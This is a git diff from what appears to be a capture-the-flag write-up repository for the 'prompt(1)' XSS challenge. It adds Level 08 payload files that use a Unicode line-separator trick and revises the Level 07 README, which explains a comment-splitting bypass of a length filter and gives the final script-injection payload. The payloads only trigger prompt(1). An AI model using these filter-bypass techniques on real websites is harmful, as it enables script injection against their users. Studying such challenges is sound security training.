

Level 07 - Length

diff --git a/prompt/Level 08 - Unicode/payload.js b/prompt/Level 08 - Unicode/payload.js
@@ -1,0 +1,1 @@
+exp-payload: prompt(1) -->

diff --git a/prompt/Level 08 - Unicode/payload.py b/prompt/Level 08 - Unicode/payload.py
@@ -1,0 +1,8 @@
+#!/usr/bin/python
+# -*- coding: UTF-8 -*-
+
+# 由于真正的 payload 里面存在不可见的 unicode 特殊字符 \u2028 (换行符)
+# 因此这里使用 python 打印这个 payload
+# 然后把打印的 payload 复制到题目注入点即可完成挑战
+
+print('exp-payload:\u2028prompt(1)\u2028-->(after run, copy this line)')

diff --git a/prompt/Level 07 - Length/README.md b/prompt/Level 07 - Length/README.md
@@ -35,7 +35,7 @@ function escape(input) {
 需知道 javascript 代码有个特点：
 
 - 在 HTML 语境中，`<script>` 和 `</script>` 标签之间的内容默认视为 js 代码
-- js 代码换行后依然会自动拼接并生效
+- js 代码换行后依然会自动拼接并生效（但是函数名/变量名要完整，不能破开到两行）
 - js 代码内容之间的注释会被自动忽略
 
 因此对于这种限制长度的注入点，可以搭配 `<script>` 和多行注释 `/* */` 进行绕过。
@@ -44,16 +44,16 @@ function escape(input) {
 
 ```html
 <p class="comment" title=""><script>/*"></p>
-<p class="comment" title="*/prompt/*"></p>
-<p class="comment" title="*/(1)/*"></p>
+<p class="comment" title="*/  prompt/*"></p>
+<p class="comment" title="*/(1)     /*"></p>
 <p class="comment" title="*/</script> "></p>
 ```
 
-> 注意： `<script>` 和 `</script>` 标签用于声明 js 代码的范围，唯独这两个标签不能从中间断开到两行，否则多行注释 `/* */` 就不会起作用了。另外我在测试 payload 的时候，也尝试过 `<!-- -->` HTML 注释，但是尖括号会造成标签错位导致注入失败，有兴趣的同学可以研究下。
+> 注意： `<script>` 和 `</script>` 标签用于声明 js 代码的范围，这两个标签不能从中间任何位置破开到两行，否则多行注释 `/* */` 就不会起作用了。另外我在测试 payload 的时候，也尝试过 `<!-- -->` HTML 注释，但是尖括号会造成标签错位导致注入失败，有兴趣的同学可以研究下。
 
 ![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2007%20-%20Length/imgs/02.png)
 
-从前面构造的 HTML 代码中提取每一行的 `title` 属性值，使用 `#` 拼接，就得到最终 payload 如下，完成挑战：
+从前面构造的 HTML 代码中提取每一行的 `title` 属性值，使用 `#` 拼接，就得到最终 payload 如下（*注意此处去掉了前面测试时的全部空格，那些空格只是为了便于对齐观察注入点，没有什么作用，保留或删除均可*），完成挑战：
 
 `"><script>/*#*/prompt/*#*/(1)/*#*/</script>`
 
